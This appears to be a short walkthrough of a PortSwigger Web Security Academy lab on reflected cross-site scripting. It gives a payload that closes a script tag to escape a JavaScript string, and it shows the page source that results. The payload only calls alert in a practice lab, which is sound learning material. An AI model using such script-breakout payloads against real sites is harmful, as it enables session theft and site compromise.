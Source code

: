 # Reflected XSS into a JavaScript string with single quote and backslash escaped

## This lab contains a [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.

## To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the `alert` function.

---

### step 1

search something

![screenshot](images/lab21.jpg)

### step2

payload is

```javascript
</script><script>alert(1)</script>
```

enter into search result

```javascript
<script>

var searchTerms = '</script><script>alert(1)</script>';

document.write('<img src="[/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'](https://0a840064042f3b9080d780620032000d.web-security-academy.net/resources/images/tracker.gif?searchTerms=%27+encodeURIComponent(searchTerms)+%27)">');

</script>
```
